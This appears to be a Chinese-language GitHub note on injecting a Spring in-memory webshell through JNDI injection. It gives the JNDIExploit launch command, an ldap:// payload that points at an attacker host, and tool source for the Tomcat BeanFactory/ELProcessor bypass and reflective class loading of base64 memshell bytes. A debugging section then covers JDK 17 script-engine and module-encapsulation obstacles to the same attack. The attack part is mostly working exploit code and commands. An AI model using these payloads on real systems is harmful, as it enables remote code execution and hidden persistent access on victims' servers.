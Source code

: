 在存在jdni注入的情况下，注入一个Spring的内存马。
开启jdni注入工具：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar --ip 192.168.17.129 --httpPort 8081
```

请求中插入payload：
```
ldap://192.168.17.129:1389/TomcatBypass/SpringMemshell
```

jndi注入工具收到请求：
![image](https://user-images.githubusercontent.com/30398606/174015267-93d53012-99f1-4bbf-9785-e1779d549928.png)


相关注入代码：
com.feihong.ldap.gadgets.utils.Gadgets #createTemplatesImpl (PayloadType type, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String... param)
  
```java
  byte[] classBytes = null;
        switch (type){
            ...
            case springmemshell:
                classBytes = Cache.get("SpringMemshellTemplate");
                break;
            ...
         }
```

com.feihong.ldap.utils.Cache中注入：
```java
      static{
        try {
            //过期时间100年，永不过期的简单方法
            map.put("TomcatEchoTemplate", Util.getClassBytes(TomcatEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringEchoTemplate", Util.getClassBytes(SpringEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicEchoTemplate", Util.getClassBytes(WeblogicEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate1", Util.getClassBytes(TomcatMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate2", Util.getClassBytes(TomcatMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JettyMemshellTemplate", Util.getClassBytes(JettyMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate1", Util.getClassBytes(WeblogicMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate2", Util.getClassBytes(WeblogicMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JBossMemshellTemplate", Util.getClassBytes(JBossMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WebsphereMemshellTemplate", Util.getClassBytes(WebsphereMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringMemshellTemplate", Util.getClassBytes(SpringMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static byte[] get(String key){
        return map.get(key);
    }

    public static void set(String key, byte[] bytes){
        map.put(key, bytes);
    }
```

com.feihong.ldap.controllers.TomcatBypassController
```java
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception {
        System.out.println("[+] Sending LDAP ResourceRef result for " + base + " with javax.el.ELProcessor payload");

        Entry e = new Entry(base);
        e.addAttribute("javaClassName", "java.lang.String"); //could be any
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));

        TomcatBypassHelper helper = new TomcatBypassHelper();
        String code = null;
        switch (type){
  
            case springmemshell:
                code = helper.injectSpringMemshell();
                break;
        ...
        }
```
  
com.feihong.ldap.controllers.TomcatBypassController$TomcatBypassHelper
```java

        public String injectSpringMemshell(){
            return injectMemshell(SpringMemshellTemplate.class);
        }
  
        public String injectMemshell(Class clazz){
            //使用类加载的方式最为方便，可维护性也大大增强

            String classCode = null;
            try{
                classCode = Util.getClassCode(clazz);
            }catch(Exception e){
                e.printStackTrace();
            }

            String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + classCode + "');\n" +
                    "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                    "try{\n" +
                    "   var clazz = classLoader.loadClass('" + clazz.getName() + "');\n" +
                    "   clazz.newInstance();\n" +
                    "}catch(err){\n" +
                    "   var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                    "   method.setAccessible(true);\n" +
                    "   var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                    "   clazz.newInstance();\n" +
                    "};";

            return code;
        }
```

com.feihong.ldap.utils.Util
```java
    public static String getClassCode(Class clazz) throws Exception {
        byte[] bytes = getClassBytes(clazz);
        String result = Util.base64Encode(bytes);

        return result;
    }
  
    public static byte[] getClassBytes(Class clazz) throws Exception {
        String className = clazz.getName();
        String resoucePath = className.replaceAll("\\.", "/") + ".class";
        InputStream in = Util.class.getProtectionDomain().getClassLoader().getResourceAsStream(resoucePath);
        byte[] bytes = new byte[1024];
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        int len = 0;
        while((len = in.read(bytes)) != -1){
            baous.write(bytes, 0 , len);
        }

        in.close();
        baous.close();

        return baous.toByteArray();
    }
```

Ref:
- https://github.com/shadowsock5/JNDIExploit/blob/a3addc8d5fb3281d9ea95f9fbcc85e14ebb8dd25/src/main/java/com/feihong/ldap/controllers/TomcatBypassController.java

  
```java
javax.script.ScriptEngineManager #getEngineByName("JavaScript")
```
在JDK-17.0.2，下执行失败，找不到这个Engine。

而在JDK-11下：
![image](https://user-images.githubusercontent.com/30398606/174246137-e5604d2f-5f75-4ea1-994e-29da96ca9113.png)
没有问题。
![image](https://user-images.githubusercontent.com/30398606/174246969-f0b2b684-22eb-4eef-831c-3707f8b37404.png)

  开始还以为是jdk-17对jndi的注入有什么限制，后来发现原来不是，依然可以绕过，只是获取不到`getEngineByName("JavaScript")`
原来是
> Java 15 removed [Nashorn JavaScript Engine](https://golb.hplar.ch/2020/04/java-javascript-engine.html)

推荐使用`GraalVM JavaScript engine`？但是需要添加依赖：
```xml
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js</artifactId>
  <version>22.0.0</version>
</dependency>  
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js-scriptengine</artifactId>
  <version>22.0.0</version>
</dependency>
```
然后使用方法：
```java
// Graal
ScriptEngine graalEngine = new ScriptEngineManager().getEngineByName("graal.js");
graalEngine.eval("print('Hello World!');");
```
查看哪些Engine可以用：
```java
new ScriptEngineManager().getEngineFactories();
```
JDK-17下，
  ![image](https://user-images.githubusercontent.com/30398606/174250896-348355dc-04cd-437c-909b-54748b182a76.png)

  
尝试使用这个：
  https://github.com/lz2y/yaml-payload-for-ruoyi/blob/main/src/main/java/artsploit/AwesomeScriptEngineFactory.java
  但是：
  ![image](https://user-images.githubusercontent.com/30398606/174265414-fdadcbae-6b3b-4e39-9f4c-bb6c62e95b17.png)
```
java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @2d127a61
```

> 403 强封装JDK的内部API
简而言之就是java内部的大部分类，除了关键的内部API，如sun.misc.Unsafe类，都进行强封装，默认情况下不允许开发人员利用反射等手段去访问内部非public的类、成员变量等，使java更加安全。
但是可以通过设置参数–add-export或–add-opens来指定哪些类可以被访问。
————————————————
版权声明：本文为CSDN博主「aitutou」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/aitutou/article/details/124248255
  
  
尝试反射第三方的库的方法解决
  new ClassLoader().loadClass(bcelCode)
Ref:
  - https://stackoverflow.com/questions/71481562/use-javascript-scripting-engine-in-java-17
  - https://github.com/keycloak/keycloak/issues/9945
